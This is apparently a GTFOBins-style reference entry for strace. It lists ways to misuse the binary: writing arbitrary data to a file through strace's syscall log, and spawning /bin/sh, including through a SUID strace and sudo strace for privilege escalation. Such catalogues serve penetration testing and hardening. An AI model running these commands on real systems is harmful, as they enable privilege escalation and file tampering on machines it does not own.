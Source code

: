 ```yaml
---
functions:
  file-write:
    - description: write DATA to $WFILE
      code: |
        LFILE=$(mktemp --suffix=.s)
        WFILE=file-to-write
        elf=$(mktemp -u)
        vi $LFILE
        ;#####CODE START#####
        .global _start
        _start:
        .intel_syntax noprefix
        mov rax,2
        lea rdi,[rip+DATA]
        mov rsi, 0
        syscall
        mov rax,60
        mov rdi,0
        syscall
        DATA:
        .string "THIS IS THE DATA NEED TO BE WRITTEN USING STRACE"
        ;#####CODE END#####
        :wq
        gcc -nostdlib --static $LFILE -o $elf
        strace -o $WFILE $elf
  shell:
    - code: strace -o /dev/null /bin/sh
  suid:
    - code: ./strace -o /dev/null /bin/sh -p
  sudo:
    - code: sudo strace -o /dev/null /bin/sh
---
```

